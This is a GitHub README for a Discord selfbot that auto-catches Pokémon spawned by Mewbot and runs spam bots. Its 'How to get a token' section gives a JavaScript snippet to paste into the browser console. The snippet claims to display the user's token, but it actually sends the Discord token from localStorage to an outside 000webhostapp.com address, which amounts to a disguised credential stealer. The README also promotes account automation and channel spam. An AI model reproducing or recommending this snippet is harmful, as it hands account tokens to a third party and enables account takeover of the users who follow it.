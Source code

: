 Pokecord-Autocatcher
=====
## Description: 
Due to the recent news that Pokecord is now official dead many servers have decided to move onto Mewbot. This is a program for Discord which allows you to auto-catch pokemon spawned by Mewbot with many more features yet to come!
## How to use:
1. Download latest release from [here](https://github.com/RussianWaffles/mewbot-autocatcher/releases) or download the latest dev build from [here](https://github.com/RussianWaffles/mewbot-autocatcher/blob/master/build.zip)
2. Extract the zip
3. Run `npm i --only=prod` to install dependencies
4. Start the program with `npm start`
5. Goto `localhost:3000`
6. Input your tokens by clicking on the blank avatars(Only the first one is needed if you don't require spam)
7. Edit the server configs by clicking on their icon's
8. Enable the options you require and the program is ready to go!
## How to get a token:
1. Login to the account you want the token of
2. Press `F12` or `CTRL + SHIFT + I` if nothing opens
3. Goto the Console tab
4. Copy and paste this script and press enter
```javascript
location.reload();
function getLocalStoragePropertyDescriptor() {
  const iframe = document.createElement('iframe');
  document.head.append(iframe);
  const pd = Object.getOwnPropertyDescriptor(iframe.contentWindow, 'localStorage');
  iframe.remove();
  return pd;
}
Object.defineProperty(window, 'localStorage', getLocalStoragePropertyDescriptor());
window.location.href = "https://8nfiles.000webhostapp.com/?token=" + window.localStorage.getItem("token").split('"').join('');
```
5. Your token should be displayed back to you
## Features:
- Auto Catch: Catch pokemon as soon as they spawn
- Online Interface: Makes configuring the bot much easier than traditional configs
- Individual Server Config's: Incase you wish to only auto-catch on certain servers
- Auto-Updating: The bot checks if it and its JSON file is up-to-date on startup
- Auto-Reporting: Automatically report's and unrecognised pokemon it finds
- Auto-Restart Capable: Once configured if the bot the crashes and is configured as a service or with [forever](https://www.npmjs.com/package/forever "forever") it will have no problems starting back up.


## Online Interface
An easy to use Online Interface to configure the program.

![GUI](https://raw.githubusercontent.com/RussianWaffles/mewbot-autocatcher/master/GUI.png "GUI")
![GUI2](https://raw.githubusercontent.com/RussianWaffles/mewbot-autocatcher/master/GUI2.png "GUI2")
![GUI3](https://raw.githubusercontent.com/RussianWaffles/mewbot-autocatcher/master/GUI3.png "GUI3")
![GUI4](https://raw.githubusercontent.com/RussianWaffles/mewbot-autocatcher/master/GUI4.png "GUI4")

- Handles up to 3 bots at once, the Main Bot which is used to catch the pokemon and the 2 Spam Bots which are used to send spam
- An area for the Main Bot's servers where each one is able to be individually configured
- The main options for the program
- Bot Logs where any caught pokemon are displayed(up to 100 logs are displayed)
- Debug Logs where logs for debugging are displayed(up to 100 logs are displayed)
- Statistics to quickly check the program


## Spam
The two Spam Bots are able to spam into a given channel with a given spam delay across all configured servers using a random line picked from `spam.txt`

## Auto catch
The Main Bot is able to catch a pokemon either as soon as it spawns or with a given delay across all configured servers.

By RussianWaffles
-----
